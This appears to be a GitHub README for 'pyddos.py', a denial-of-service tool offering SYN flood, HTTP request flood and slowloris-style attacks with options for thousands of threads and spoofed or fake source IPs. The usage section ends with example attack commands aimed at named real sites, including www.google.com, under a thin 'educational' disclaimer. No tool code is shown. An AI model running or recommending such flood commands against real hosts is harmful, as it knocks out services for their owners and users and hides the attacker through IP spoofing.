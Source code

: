 # pyddos.py

* This is my new update 
* This script have 3 type of ddos attack : SYNFLOOD | REQUEST | Pyslow
* Script has pyslow attack type which same like slowloris attack

# Note
* I worte this script for educational not for destructive purposes and illegal actions,so i won't responsible for that  

# Usage
       
      _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
           
    usage: ./pyddos -d [target] [option]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|           
    -s <int>         Set sleep time for reconnection                                                  
    -i <ip address>  Specify spoofed ip unless use fake ip                                            
    --fakeip         Option to create fake ip if not specify spoofed ip
    --request        Enable request target
    --synflood       Enable synflood attack
    --pyslow         Enable pyslow attack

    Example:
    ./pyddos -d www.example.com -p 80 -T 2000 --pyslow
    ./pyddos -d www.domain.com --request
    ./pyddos -d www.google.com --synflood -T 5000 -t 10.0

